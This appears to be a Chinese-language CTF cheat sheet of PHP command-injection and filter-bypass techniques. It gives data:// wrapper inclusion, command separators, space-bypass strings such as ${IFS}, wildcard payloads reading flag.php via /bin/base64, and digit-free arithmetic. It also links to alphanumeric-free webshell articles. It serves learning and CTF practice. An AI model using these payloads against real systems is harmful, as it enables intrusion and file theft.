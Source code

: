 通过`.php`后缀限制`include`时，使用`data://text/plain`, 相当于执行了php语句，因为前面的php语句已经闭合了，所以后面的`.php`会被当成html页面直接显示。

无字母数字绕过正则表达式总结脚本：<a href="https://blog.csdn.net/miuzzx/article/details/109143413" target="_blank"  rel="nofollow" >https://blog.csdn.net/miuzzx/article/details/109143413</a>

一些不包含数字和字母的webshell：<a href="https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html" target="_blank"  rel="nofollow" >https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html</a>

无字母数字webshell之提高篇：<a href="https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html" target="_blank" rel="noreferrer noopener" rel="nofollow" >https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html</a>

`session_id()`结合`PHPSESSID`，受php版本影响 5.5 -7.1.9均可以执行，`session_id`规定为0-9，a-z,A-Z,-中的字符。

命令分隔

<pre class="wp-block-code"><code>换行符     %0a
回车符     %0d
连续指令   ;
后台进程   &（编码%26）
管道符     |
(逻辑?)    ||  &&

windows中：%1a（作为.bat文件中的命令分隔符）</code></pre>

空格绕过

<pre class="wp-block-code"><code>>、&lt;、&lt;>   //重定向符,通常结合nl等命令使用
%09(需要php环境,tab)
${IFS}
$IFS
$IFS$9
,    //用逗号实现了空格功能
%20</code></pre>

过滤字母时可用payload:c=`/???/????64 ????.???`读取flag.php，bin目录为binary的简写，主要放置一些 系统的必备执行档例如:cat、cp、chmod df、dmesg、gzip、kill、ls、mkdir、more、mount、rm、su、tar、base64等，这里可以利用 base64 中的64 进行通配符匹配，即/bin/base64 flag.php。

另一种payload:c=`/???/???/????2 ????.???`，可通过/usr/bin目录，常包括例如c++、g++、gcc、chdrv、diff、dig、du、eject、elm、free、gnome、 zip、htpasswd、kfm、ktop、last、less、locale、m4、make、man、mcopy、ncftp、 newaliases、nslookup passwd、quota、smb、wget等，可以利用/usr/bin下的bzip2将flag.php文件进行压缩，然后再下载。

构造数字，`$(( ))`与整数运算

<pre class="wp-block-code"><code>$(())---------是0
$((~$(())))---是-1
$((~$(())))$((~$(())))---是-1-1
$(($((~$(())))$((~$(())))))---是-2

同时$((~-a))=a-1，如：$((~-5))=4
$((~a))=-a-1，如：$((~5))=-6</code></pre>

<p id="block-6c7ae655-d855-4388-ae1b-c8634a7119a8">
  通过fopen去读取文件内容
</p>
<pre class="wp-block-code"><code>fread()
fgets()
fgetc()
fgetss()//This function has been DEPRECATED as of PHP 7.3.0, and REMOVED as of PHP 8.0.0
fgetcsv()
fpassthru()
